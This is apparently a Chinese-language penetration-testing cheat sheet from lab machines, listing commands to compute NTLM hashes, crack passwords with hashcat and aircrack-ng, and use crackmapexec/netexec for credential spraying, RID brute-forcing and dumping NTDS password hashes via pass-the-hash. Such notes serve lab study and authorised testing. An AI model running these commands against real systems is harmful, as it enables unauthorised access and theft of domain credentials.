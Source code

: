 [+] **查看加密方式：**
![](photos/Pasted%20image%2020231224181528.png)
![](photos/Pasted%20image%2020240112002932.png)

[+]**明文反向加密成 NTLM**
```bash
└─$ iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
MD4(stdin)= b999a16500b87d17ec7f2e2a68778f05
```

优化爆破
```bash
--rules=best64
```


**crackmapexec / netexec**
```bash
crackmapexec ssh 172.20.10.3 -u creds -p creds [--]
crackmapexec smb streamio.htb -u username -p password [--continue-on-success] [--shares] [--no-bruteforce (只匹配对应的Username和password)]
crackmapexec ldap DOMAIN -u username -p password [-k] [--users]
crackmapexec smb hathor.windcorp.htb -d windcorp.htb -u BeatriceMill -p '!!!!ilovegood17' -k  --shares  (-d指定DOMAIN)
crackmapexec smb absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds (读取ntds 类似于secretsdump.py)
crackmapexec smb rebound.htb -u QWE -p '' --rid-brute > RID_raw   (爆破RID枚举域内用户名)
netexec smb 10.10.204.154 -u db_username -p password --local-auth   (域中的本地用户凭据枚举)
```


**aircrack-ng (WIFI)**
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt WPA-01.cap
```


**hashcat**
https://hashcat.net/wiki/doku.php?id=example_hashes
- 单密码的情况  , ( -m 指定加密方式算法为0 [MD5] )
```bash
hashcat passwd /usr/share/wordlists/rockyou.txt -m 0 [--show]
```
